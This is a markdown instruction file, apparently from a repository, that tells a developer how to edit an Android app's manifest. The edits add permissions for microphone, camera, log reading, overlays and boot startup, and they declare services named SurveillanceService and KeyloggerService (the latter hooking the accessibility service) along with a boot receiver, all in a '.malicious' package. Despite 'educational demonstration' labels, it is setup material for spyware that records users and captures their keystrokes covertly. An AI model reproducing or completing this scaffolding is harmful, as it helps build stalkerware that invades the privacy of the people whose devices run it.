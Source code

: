 # AndroidManifest.xml Changes Required

After running the copy script, you'll need to manually update your AndroidManifest.xml file with the following additions:

## 1. Add These Permissions

Add these permission declarations after your existing permissions:

```xml
<!-- Permissions for malicious functionality (FOR EDUCATIONAL DEMONSTRATION ONLY) -->
<uses-permission android:name="android.permission.RECORD_AUDIO" />
<uses-permission android:name="android.permission.CAMERA" />
<uses-permission android:name="android.permission.READ_LOGS" 
    tools:ignore="ProtectedPermissions" />
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
<uses-permission android:name="android.permission.FOREGROUND_SERVICE" />
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
```

## 2. Add These Service and Receiver Declarations

Add these inside the `<application>` tag, right before the closing `</application>` tag:

```xml
<!-- Malicious service for educational purposes only -->
<service
    android:name=".malicious.SurveillanceService"
    android:enabled="true"
    android:exported="false">
</service>

<service
    android:name=".malicious.KeyloggerService"
    android:enabled="true"
    android:exported="false"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data
        android:name="android.accessibilityservice"
        android:resource="@xml/accessibility_service_config" />
</service>

<receiver
    android:name=".malicious.BootReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED" />
    </intent-filter>
</receiver>
```

## Additional Notes

1. Make sure your AndroidManifest.xml already has the `xmlns:tools="http://schemas.android.com/tools"` attribute in the root `<manifest>` element. If not, add it:

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">
```

2. If your application tag doesn't have `tools:targetApi` attribute, you might need to add it:

```xml
<application
    ...
    tools:targetApi="31">
```

3. Double-check that you have the accessibility_service_config.xml file in your project's res/xml directory.
